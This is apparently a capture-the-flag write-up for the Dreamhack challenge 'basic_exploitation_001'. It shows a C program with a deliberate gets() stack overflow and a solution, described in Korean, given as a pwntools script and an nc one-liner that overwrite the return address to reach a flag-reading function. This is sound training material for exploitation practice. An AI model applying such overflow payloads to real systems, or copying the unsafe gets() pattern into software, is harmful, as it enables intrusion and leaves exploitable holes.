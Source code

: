 ## basic_exploitation_001
---

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

<br><br>

## Solution
---

read_flag 함수의 주소로 보내주면 된다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games',12549)

flag = p32(0x80485b9)

payload = b"A"*0x80 + b"BBBB" + flag

p.send(payload)
p.interactive()
```

<br>

또는 ```nc host3.dreamhack.games 23975 <<< $(python3 -c 'import sys;sys.stdout.buffer.write(b"a"*0x80+b"BBBB"+b"\xb9\x85\x04\x08")')```
